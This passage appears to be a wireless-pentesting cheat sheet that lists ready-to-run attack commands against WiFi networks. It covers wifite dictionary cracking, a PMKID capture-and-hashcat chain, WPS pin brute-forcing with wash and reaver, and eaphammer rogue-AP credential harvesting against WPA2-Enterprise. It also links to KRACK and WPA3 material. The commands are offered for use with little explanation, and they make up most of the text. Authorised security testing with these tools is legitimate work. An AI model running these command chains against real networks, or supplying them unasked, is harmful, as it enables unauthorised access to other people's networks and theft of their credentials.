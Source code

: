 **Wifite**

```bash
sudo wifite --crack --dict ~/SecLists/Passwords/darkc0de.txt # aircrack, john, hashcat (all bf including PMKID), cowpatty (depreciated)
sudo wifite --crack --dict ~/SecLists/Fuzzing/6-digits-000000-999999.txt 
```

#### Client-Less PMKID attack

- https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/
- Included in **wifite2**

```bash
airmon-ng start wlan1
hcxdumptool -i wlan1mon -o outfile.pcapng --enable_status=1
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng
hashcat -m 16800 test.16800 -a 3 -w 3 '?l?l?l?l?l?lt!'
```

#### KRACK

- https://beta.hackndo.com/krack/
- https://www.krackattacks.com/
- https://github.com/vanhoefm/krackattacks-scripts

#### WPS Pin attacks

- Pixie-Dust & Pin bf attack: `reaver`, `bully`
- NULL Pin: `reaver`
- Included in **wifite2**

```bash
sudo wash -i wlan1mon
#BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID

sudo reaver -i wlan0mon -b <BSSID> -vv
```

### WPA2-EAP | WPA-MGT (Entreprise)

- https://www.cisco.com/c/en/us/support/docs/wireless-mobility/wireless-lan-wlan/214275-configure-wireshark-and-freeradius-in-or.html
- https://github.com/koutto/pi-pwnbox-rogueap/wiki/07.-WPA-WPA2-Enterprise-(MGT)

```bash
sudo python3 ./eaphammer –cert-wizard
sudo python3 ./eaphammer -i wlan6 --creds -e "xxx" -b xx:xx:xx:xx:xx:xx #BSSID /MAC
```

### WPA3 (SAE+EAP/MGT)

- https://wpa3.mathyvanhoef.com/
